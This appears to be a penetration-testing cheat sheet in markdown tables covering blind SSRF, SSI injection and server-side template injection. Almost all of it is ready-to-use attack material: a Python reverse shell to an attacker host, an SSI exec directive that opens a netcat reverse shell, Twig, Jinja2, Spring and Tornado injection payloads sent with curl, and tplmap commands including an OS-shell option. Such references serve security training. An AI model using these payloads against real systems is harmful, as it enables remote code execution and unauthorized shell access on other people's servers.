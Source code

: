 ## Blind SSRF Exploitation Example

| **Command**   | **Description**   |
| --------------|-------------------|
| `nc -lvnp 9090` | Starting a netcat listener | 
| `echo """<B64 encoded response>""" \| base64 -d` | Decoding the base64 encoded response | 
| `export RHOST="<VPN/TUN IP>";export RPORT="<PORT>";python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'` | Reverse shell payload (to be URL encoaded twice) |


## SSI Injection Exploitation Example

| **SSI Directive Payload**   | **Description**   |
| --------------|-------------------|
| `<!--#echo var="DATE_LOCAL" -->` | Date | 
| `<!--#printenv -->` | All variables | 
| `<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo\|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->` | Reverse Shell | 


## SSTI Exploitation Example 1

| **Command**   | **Description**   |
| --------------|-------------------|
| `git clone https://github.com/epinna/tplmap.git` | Cloning the tplmap repoistory |
| `cd tplmap` | Navigating to the new directory| 
| `pip install virtualenv` | Installing the virtual environment with pip |
| `virtualenv -p python2 venv` | Creating a virtual environment named venv with python2 |
| `source venv/bin/activate` | Activating a Python virtual environment, configuring the shell to use the virtual environment's Python interpreter |
| `pip install -r requirements.txt` | Installing dependencies |
| `./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john` | Running tplmap against the target | 
| `./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john --os-shell` | Running tplmap with the os-shell option |
| `{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}` | Twig RCE payload |


## SSTI Exploitation Example 2

| **Command**   | **Description**   |
| --------------|-------------------|
| `curl -X POST -d 'email=${7*7}' http://<TARGET IP>:<PORT>/jointheteam` | Interacting with the remote target (Spring payload) |
| `curl -X POST -d 'email={{_self.env.display("TEST"}}' http://<TARGET IP>:<PORT>/jointheteam` | Interacting with the remote target (Twig payload) | 
| `curl -X POST -d 'email={{config.items()}}' http://<TARGET IP>:<PORT>/jointheteam` | Interacting with the remote target (Jinja2 basic injection) |
| `curl -X POST -d 'email={{ [].class.base.subclasses() }}' http://<TARGET IP>:<PORT>/jointheteam` | Interacting with the remote target (Jinja2 dump all classes payload) |
| `curl -X POST -d "email={% import os %}{{os.system('whoami')}}" http://<TARGET IP>:<PORT>/jointheteam` | Interacting with the remote target (Tornado payload) |
| `./tplmap.py -u 'http://<TARGET IP>:<PORT>/jointheteam' -d email=blah` | Automating the exploitation process with tplmap|
